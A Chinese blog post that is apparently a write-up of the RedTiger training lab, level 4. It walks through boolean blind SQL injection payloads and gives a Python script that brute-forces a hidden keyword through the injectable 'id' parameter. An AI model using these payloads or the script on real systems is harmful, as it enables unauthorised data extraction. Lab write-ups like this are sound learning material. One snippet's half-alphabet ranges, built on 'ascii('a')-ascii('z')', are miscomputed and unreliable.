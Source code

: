 ```yaml
---
title: red tiger 打靶日志
slug: redtiger-lab-training-note-2022-05-06
date: 2022-05-06 15:32:08
categories:
- security
tags:
- security
- redtiger
- sqli
---
```


## 前言

虽然靶场说不要透露任何 solution 但谷歌搜了下发现早有人透题了...于是灵活一点，不透 flag 就完了。

## 正文

### 盲注测试

看到`id=1`先试试`id=2`，发现返回 0，然后试试`id=2 or 1=1`，返回1，应该能注入。

### 长度测试

本来想 `or` 跟一个子查询：`SELECT (SELECT CHAR_LENGTH(keyword) FROM level4_secret LIMIT 1)>10;`，手欠试了下直接`or char_length(keyword)>10` 发现返回了 1 row，于是省掉了子查询。

用 `or char_length(keyword)>?`二分法，从`>100`开始测直到得到结果。

<!-- 结果是 21 -->

### 按位猜解

用 `or ascii(substring(keyword,1,1)) BETWEEN ascii('a') AND ascii('z')`测一遍第一个字符是不是小写字母，然后按这个思路二分搜一遍。

```sql
BETWEEN ascii('a') AND ascii('z')
BETWEEN ascii('a') AND ascii('a')-ascii('z') # 字母表前一半, 97~122
BETWEEN ascii('a')-ascii('z') and ascii('z') # 字母表后一半
BETWEEN ascii('A') AND ascii('Z')
BETWEEN ascii('0') AND ascii('9')
```

但如果不是字母或数字，是 UNICODE 的话就麻烦了。可以结合 `hex` 函数或者别的方式编码一下再猜，我没找到能把 UNICODE 转数字就像 `ascii` 一样的函数。

手工测肯定是不行的，没那个闲工夫。写个脚本暴力跑一遍即可。

```python
import time
import requests
import string

length = 0 # 自己根据上面的方法找出 keyword 长度
secret = ''

for pos in range(1, length):
    for c in string.printable:
        time.sleep(0.1)
        print(f'{pos}: test {c}')
        resp = requests.get('http://redtiger.labs.overthewire.org/level4.php', {
            'id': f'2 or substring(keyword,{pos},1)=\'{c}\''
        }, cookies={
            # **removed**
        })
        if resp.text.find('Query returned 1 rows.') >= 0:
            print(f'{pos}: {repr(c)} correct')
            secret += c
            break

print(f'secret is {secret}')
```

注意 cookies，其他没有特别的地方。这个脚本略暴力，可以优化成 `find_in_set` 二分搜索，可以显著降低请求次数。

## 总结

把 flag 贴进去就过了，没什么难的。原本想 sqlmap 能不能解决，但 sqlmap 还用不太熟练，不确定能不能盲注解出 keyword 的值。之后会在 DVWA 上研究下 sqlmap 猜解指定的字段要怎么猜。

